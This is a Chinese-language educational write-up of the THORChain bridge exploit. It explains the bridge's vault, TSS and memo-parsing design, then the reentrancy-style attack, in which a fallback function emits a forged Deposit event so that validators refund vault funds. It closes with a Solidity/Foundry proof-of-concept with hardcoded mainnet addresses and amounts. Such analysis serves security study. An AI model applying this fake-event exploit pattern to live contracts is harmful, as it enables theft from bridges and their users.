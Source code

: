 <!--StartFragment-->

# 一. THORChain 的背景知识

THORChain 是一个跨链桥。最基础的特点和其他桥都一样。验证节点监听原链的交易，验证没有问题，就把交易传递到目标链去执行。

![7crossbridge_thorchain_1_.png](https://img.learnblockchain.cn/attachments/2023/12/1vT3nhlN657c642f5038d.png)

下面围绕这几个关键词简单说下 THORChain：金库， TSS，轮班，Memo解析，Router。

- 金库：用户的token，流动性提供者的token都存在这里，类似uniswap的pool。

- TSS：金库太重要了，为了安全，就需要多个验证者共同签名才能转移token，每个验证者相当于拿的都是私钥碎片，多个（一般超过2/3）验证者的私钥才是一个完整的金库地址的私钥。

- 轮班：为了安全，验证者工作一段时间，就要离开，替补验证者登台干活。验证者轮班了，私钥也就变了，金库也得变。所以轮班的不只是验证者还有金库。

- Router：路由合约，函数都由金库来操作。结合前面的知识就是：超过2/3的验证节点通过私钥签名，控制金库账户来调用Router合约。轮班时，金库=>新金库，就需要转移资产，调用的`returnVaultAssets`，本次漏洞攻击就在这个函数。

- Memo解析：验证者，监听Router合约的Event事件来判断原链的交易，如果是 `Deposit` 事件，解析Memo字段，Memo是个拼接信息的字符串，判断去哪个链？要交易哪个Token？要多少？token最后发给哪个地址。


可以结合这三张图看上面的文字
![7crossbridge_thorchain_2_轮班制度_.png](https://img.learnblockchain.cn/attachments/2023/12/BkAG6hZ6657d18b3b7ed0.png)



![7crossbridge_thorchain_3_转移金库_.png](https://img.learnblockchain.cn/attachments/2023/12/S4vFtmWU657d18d3ac29e.png)



![7crossbridge_thorchain_4_解析memo_.png](https://img.learnblockchain.cn/attachments/2023/12/kfxKjWQp657d18deec3c5.png)



# 二. 攻击流程

## 概述攻击步骤
- step1 攻击者创建**攻击合约A**，等待后面的重入时机。
- step2 攻击者调用 `THORChain` 的 `Router` 合约的 `returnVaultAssets(address router, address payable asgard, Coin[] memory coins, string memory memo)`。第一个参数传入**攻击合约A**的地址。
- step3 Route转账ETH，调用**攻击合约A**的 `fallback` 方法。
- step4 **攻击合约A**的 `fallback`，emit一个 `Deposit` 事件，Memo随便写，只要写的不符合规范就行。
- step5   `THORChain` 验证节点，监听到 `Deposit` 事件，就认为有用户存钱了，但是解析Memo字段失败，就从金库中给用户退款。（其实用户没转钱，只是伪造了一个 `Deposit` 事件。 ）


## 图片解释攻击流程


![7crossbridge_thorchain_6_整体流程_.png](https://img.learnblockchain.cn/attachments/2023/12/YpjXFxdK657d746d09713.png)


# 三. POC


## 准备工作

### 最佳学习资料：[DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs)

[SunWeb3Sec: 3. 自己动手写POC1 (Price Oracle Manipulation)](https://github.com/SunWeb3Sec/DeFiHackLabs/tree/main/academy/onchain_debug/03\_write_your_own_poc)\
[SunWeb3Sec: 4. 自己动手写POC2 - MEV Bot](https://github.com/SunWeb3Sec/DeFiHackLabs/tree/main/academy/onchain_debug/04\_write_your_own_poc/)\
[SunWeb3Sec: 6. 自己动手写POC3 (Reentrancy)](https://github.com/SunWeb3Sec/DeFiHackLabs/tree/main/academy/onchain_debug/06\_write_your_own_poc/)

工程里有大量POC代码，非常推荐！！！



## 开始开始POC逻辑

写了很多次POC，这次是唯一一次，不是攻击合约主动调用的攻击流程。
攻击合约只有一个函数 `fallback`，被动等待Router的`returnVaultAssets`调用。
`fallback`执行后，也不会立刻成功，可能是几个区块后，验证者节点解析了 `Deposit`事件失败，决定退款，攻击者才会得到`Vault`的转账。

于是最终的结果需要验证节点来驱动。所以，这个POC写完了也无法验证结果。


```solidity
contract ContractTest is Test{

    event Deposit(address indexed to, address indexed asset, uint amount, string memo);

    function setUp() public {
        vm.createSelectFork('mainnet', 12878653 - 1);
    }

    fallback() external payable {
        address vaultAddress = address(0xf56cba49337a624e94042e325ad6bc864436e370);
        address XRUNEAddress = address(0x69fa0fee221ad11012bab0fdb45d444d3d2ce71c);
        uint safeAmount = 20_867_082_192_584_947_929_101_400;
        string memory memo = "10% VAR bounty would have prevented this";
        emit Deposit(vaultAddress, XRUNEAddress, safeAmount, memo);
    }

}
```


注意，`returnVaultAssets` 这个函数就不是给用户调用的，是给金库调用的。攻击人调用，就是看中了它能transfer ETH触发fallback，并且它是`public`的漏洞。







<!--EndFragment-->